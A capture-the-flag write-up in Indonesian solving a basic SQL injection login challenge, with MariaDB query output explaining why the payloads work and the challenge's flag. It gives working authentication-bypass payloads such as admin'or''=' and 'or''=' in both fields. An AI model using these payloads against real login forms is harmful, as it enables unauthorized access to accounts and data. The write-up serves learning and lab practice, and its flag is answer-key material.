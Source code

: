 <h1><b>Basic SQL-1</h1></b>
<pre>
Login Form (username & password)
</pre>
</b><h3>Solution</h3></b>
<p>Mencoba login dengan username = <b>admin</b>, password = <b>admin</b> maka akan muncul pesan kesalahan <b>Your username or password is incorrect</b></p>
<p>- Percobaan-1, injection username = <b>'or''='</b> , password = *abaikan* hasil masih menampilkan pesan incorrect</p>
<p>- Percobaan-2, injection username = <b>admin'or''='</b> , password = *abaikan* dan hasil success, Flag didapatkan</p>
<p>Kelemahan terdapat pada MySQL dan tidak terdapat filter dari input string php</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge1 where username = 'admin'or''='';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | ********* |
+----------+-----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select 'admin'or''='';
+----------------+
| 'admin'or''='' |
+----------------+
|              1 |
+----------------+
1 row in set, 2 warnings (0.000 sec)
```
<p>Ingat bagaimana boolean beroperasi dengan operator bitwise AND (1 AND 1 = 1), dan cara diatas bernilai True jika username yang kita input bernilai True atau
sesuai dengan database</p>

<p>Dan, Injection lain yang berlaku untuk bypass SQL pada kondisi diatas tanpa bantuan username yang valid, yaitu dengan injection <b>'or''='</b> 
pada form input username dan password</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge1 where username=''or''='' and password=''or''='';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | ********* |
+----------+-----------+
1 row in set (0.000 sec)

```
<p>Karena pada injection diatas akan menghasilkan username nilai 1(True) dan password 1(True), seperti contoh dibawah</p>

```mysql

MariaDB [CTF]> select ''or''='';
+-----------+
| ''or''='' |
+-----------+
|         1 |
+-----------+
1 row in set, 2 warnings (0.000 sec)

MariaDB [CTF]> select ''or''='' and ''or''='';
+-------------------------+
| ''or''='' and ''or''='' |
+-------------------------+
|                       1 |
+-------------------------+
1 row in set, 5 warnings (0.000 sec)
```
</b><h3>Flag</h3></b>
<pre>
VenomCTF{M0st_b4sic_SQLi}
</pre>
